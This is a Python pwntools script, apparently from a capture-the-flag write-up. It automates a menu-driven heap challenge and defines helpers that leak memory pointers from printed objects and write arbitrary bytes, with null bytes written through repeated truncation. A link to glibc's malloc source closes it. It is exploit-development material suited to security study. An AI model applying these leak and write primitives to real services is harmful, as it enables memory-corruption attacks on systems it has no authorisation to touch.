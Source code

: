 ```python
#!/usr/bin/env python3

from pwn import *
import re
import os

HOST = os.getenv('HOST', '127.0.0.1')
PORT = int(os.getenv('PORT', 38004))

def new(r, props=None):
 r.sendlineafter(b'> ', b'n')

 if props is not None:
  setprops(r, props)

def setprops(r, props):
 assert len(props) < 0x1000
 r.sendlineafter(b'> ', b's')
 r.sendlineafter(b':\n', props)

def printobj(r, i):
 r.sendlineafter(b'> ', b'p')
 r.sendlineafter(b': ', str(i).encode())
 r.recvuntil(b'{')
 return r.recvuntil(b'}\n')

def getobjsize(r, i):
 r.sendlineafter(b'> ', b'z')
 r.sendlineafter(b': ', str(i).encode())
 return int(r.recvline())

def delobj(r, i):
 r.sendlineafter(b'> ', b'd')
 r.sendlineafter(b': ', str(i).encode())

def get_leak(r, obj_idx, line_no, match_idx):
 data = printobj(r, obj_idx)
 data = data.splitlines()

 if line_no >= len(data):
  return None

 m = re.findall(br'\t"([^"]*)": "([^"]*)"', data[line_no])
 if not m:
  return None

 leak = m[0][match_idx]
 if len(leak) > 8:
  return None

 return u64(leak.ljust(8, b'\0'))

def write_data(r, data):
 assert b'=' not in data and b';' not in data and b'\n' not in data

 zeroes = reversed([i for i in range(len(data)) if data[i] == 0])
 data = data.replace(b'\x00', b'\xCC')

 setprops(r, data + b'=A')

 for i in zeroes:
  setprops(r, data[:i])

```

[dl-minimal-malloc]: https://elixir.bootlin.com/glibc/glibc-2.39/source/elf/dl-minimal-malloc.c